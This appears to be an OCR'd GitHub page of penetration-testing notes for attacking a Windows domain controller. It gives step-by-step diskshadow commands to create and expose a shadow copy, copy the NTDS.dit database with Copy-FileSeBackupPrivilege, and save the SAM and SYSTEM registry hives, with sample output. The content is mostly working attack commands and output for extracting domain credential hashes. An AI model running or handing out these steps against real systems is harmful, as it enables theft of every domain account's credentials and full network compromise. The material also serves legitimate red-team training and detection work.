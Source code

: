 ### Attacking a Domain Controller - Copying NTDS.dit

1) Create a shadow copy of the C drive and expose it as E drive

```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM
```

```
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

2) Copying NTDS.dit Locally

```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

3) Backing up SAM and SYSTEM Registry Hives

```
reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.
```

```
reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```
